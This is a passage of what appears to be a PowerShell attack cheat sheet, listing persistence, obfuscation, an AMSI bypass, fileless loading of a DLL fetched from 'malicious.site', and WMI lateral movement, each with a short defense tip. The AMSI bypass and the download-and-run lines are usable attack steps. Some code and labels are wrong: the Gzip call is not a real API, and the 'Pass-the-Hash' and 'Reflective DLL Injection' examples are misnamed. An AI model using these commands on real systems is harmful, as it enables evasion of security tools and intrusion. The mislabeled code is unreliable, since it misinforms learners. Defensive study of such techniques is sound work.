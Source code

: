 
#### **4. Persistence**  
**Registry Run Key Persistence**  
```powershell  
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Update" -Value "C:\malware.exe"  
```  
- **Purpose**: Executes malware on user login via the registry.  
- **Defense**: Use **AppLocker** to block untrusted executables and monitor Run keys.  

---  

#### **5. Obfuscation**  
**Base64 + Gzip Compression**  
```powershell  
$Encoded = [Convert]::ToBase64String([IO.Compression.Gzip]::Compress([Text.Encoding]::UTF8.GetBytes('malicious code')))  
powershell.exe -EncodedCommand $Encoded  
```  
- **Purpose**: Evades signature-based detection with layered obfuscation.  
- **Defense**: Deploy **AMSI** and enable script block logging.  

---  

#### **6. AMSI Bypass**  
**Patch AMSI in Memory**  
```powershell  
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiContext','NonPublic,Static').SetValue($null,$null)  
```  
- **Purpose**: Disables AMSI scans for malicious scripts.  
- **Defense**: Enable **Tamper Protection** in Windows Defender.  

---  

#### **7. Fileless Execution**  
**Reflective DLL Injection**  
```powershell  
$bytes = (Invoke-WebRequest -Uri "http://malicious.site/malware.dll").Content;  
$assembly = [System.Reflection.Assembly]::Load($bytes);  
$assembly.EntryPoint.Invoke($null, $null)  
```  
- **Purpose**: Executes payloads directly in memory.  
- **Defense**: Restrict PowerShell to **Constrained Language Mode**.  

---  

#### **8. Lateral Movement**  
**Pass-the-Hash with WMI**  
```powershell  
Invoke-WmiMethod -Class Win32_Process -ComputerName TARGET -Credential (Get-Credential) -Name Create -ArgumentList "cmd.exe /c malware.exe"  
```  
- **Purpose**: Authenticates remotely using stolen credentials.  
- **Defense**: Disable **WMI** if unused and enforce NTLMv2 authentication.  

---  
